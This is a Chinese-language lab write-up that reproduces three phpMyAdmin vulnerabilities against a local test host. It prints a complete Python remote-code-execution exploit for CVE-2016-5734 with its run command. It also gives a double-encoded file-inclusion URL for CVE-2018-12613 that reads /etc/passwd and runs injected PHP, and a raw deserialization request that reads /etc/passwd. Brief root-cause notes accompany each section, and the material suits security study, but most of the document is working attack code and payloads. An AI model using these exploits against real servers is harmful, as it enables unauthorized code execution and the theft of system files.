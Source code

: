# phpmyadmin(远程代码执行)

> CVE-2016-5734

### 环境准备

![image-20241102140520712](./assets/image-20241102140520712.png)

- 靶机:`192.168.66.251:8080`

### 准备poc

```py
#!/usr/bin/env python

"""cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
CVE: CVE-2016-5734
Author: https://twitter.com/iamsecurity
run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
"""

import requests
import argparse
import sys

__author__ = "@iamsecurity"

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd
    if arguments.dbs:
        db = arguments.dbs
    else:
        db = "test"
    token = False
    custom_table = False
    if arguments.table:
        custom_table = True
        table = arguments.table
    else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd
    else:
        payload = "system('uname -a');"

    size = 32
    s = requests.Session()
    # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
    s.verify = False
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
    '''.format(table)

    # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
    ))
    if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6
        token = resp.text[token_place:token_place + 32]
    if token is False:
        print("Cannot get valid authorization token.")
        sys.exit(1)

    if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
        if resp.status_code == 200:
            if "success" in resp.json():
                if resp.json()["success"] is False:
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")]
                    if "already exists" in error:
                        print(error)
                    else:
                        print("ERROR: " + error)
                        sys.exit(1)
    # build exploit
    exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
    }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    )
    if resp.status_code == 200:
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
        if len(result):
            print("result: " + result)
            sys.exit(0)
        print(
            "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp"
        )
        sys.exit(1)
```

```cmd
python poc.py -c 'system(id);' -u root -p root -d test http://192.168.66.251:8080/
```

![image-20241102141335565](./assets/image-20241102141335565.png)

<img src="./assets/image-20241102141845765.png" alt="image-20241102141845765" style="zoom:33%;" />

### 漏洞原理

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。在其查找并替换字符串功能中，将用户输入的信息拼接进`preg_replace`函数第一个参数中。

在PHP5.4.7以前，`preg_replace`的第一个参数可以利用\0进行截断，并将正则模式修改为e。众所周知，e模式的正则支持执行代码，此时将可构造一个任意代码执行漏洞。

以下版本受到影响：

- 4.0.10.16之前4.0.x版本
- 4.4.15.7之前4.4.x版本
- 4.6.3之前4.6.x版本（实际上由于该版本要求PHP5.5+，所以无法复现本漏洞）

****

# phpmyadmin(远程文件包含)

> CVE-2018-12613

### 环境准备

<img src="./assets/image-20241102142110817.png" alt="image-20241102142110817" style="zoom:33%;" />

- 靶机:`192.168.66.251:8080`

### 开始攻击

- 访问url,`%253f->%3f->?`

```http
http://192.168.66.251:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![image-20241102142503924](./assets/image-20241102142503924.png)

- 执行sql语句

```sql
select '<?=phpinfo()?>' 
```

![image-20241102143613278](./assets/image-20241102143613278.png)

- 获取`sessionid`

![image-20241102144407646](./assets/image-20241102144407646.png)

```http
http://192.168.66.251:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_d965ff45ecf03f58928c0e2ac3b4897e
```

- 成功访问到`phpinfo`

![image-20241102145008143](./assets/image-20241102145008143.png)

### 漏洞原理

- phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其`index.php`中存在一处文件包含逻辑，通过`二次编码`即可绕过检查，造成`远程文件包含漏洞`。

****

# phpmyadmin(反序列化漏洞)

> WooYun-2016-199433
>
> 2.x 版本存在一处反序列化漏洞,攻击者可以通过该漏洞,读取任意文件或执行任意代码

### 环境准备

<img src="./assets/image-20241102145302122.png" alt="image-20241102145302122" style="zoom:33%;" />

### 漏洞复现

- 打开`burp`进行抓包

<img src="./assets/image-20241102145616906.png" alt="image-20241102145616906" style="zoom:33%;" />

```http
POST /scripts/setup.php HTTP/1.1
Host: 192.168.66.251:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

- 发送数据包

![image-20241102145811518](./assets/image-20241102145811518.png)

